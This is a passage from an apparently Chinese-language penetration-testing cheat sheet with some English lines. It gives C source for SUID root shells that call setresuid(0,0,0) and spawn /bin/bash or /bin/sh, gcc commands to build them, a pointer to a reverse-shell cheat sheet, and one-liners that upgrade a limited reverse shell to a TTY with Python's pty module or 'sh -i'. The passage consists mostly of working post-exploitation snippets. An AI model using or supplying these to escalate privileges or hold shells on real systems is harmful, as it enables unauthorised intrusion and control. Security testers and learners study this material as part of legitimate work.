 ```text
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}
```

### 运行 /bin/sh的SUID C Shell

```text
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}
```

### 构建 SUID Shell 二进制

```text
gcc -o suid suid.c
```

32位

```text
gcc -m32 -o suid suid.c
```

## 反向Shells

参考 [反向 Shell 速查表](https://highon.coffee/blog/reverse-shell-cheat-sheet/) 。

## TTY Shells

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like `su` from reverse shells.

一些模拟出TTY终端窗口以突破shell限制的技巧，便于从反向shell上执行类似 `su` 的特殊命令。

### 用Python模拟 TTY Shell的技巧

```text
python -c 'import pty;pty.spawn("/bin/bash")'
```

```text
echo os.system('/bin/bash')
```

### 用sh模拟交互式shell

```text
/bin/sh -i
```

### 用Perl模拟 TTY Shell
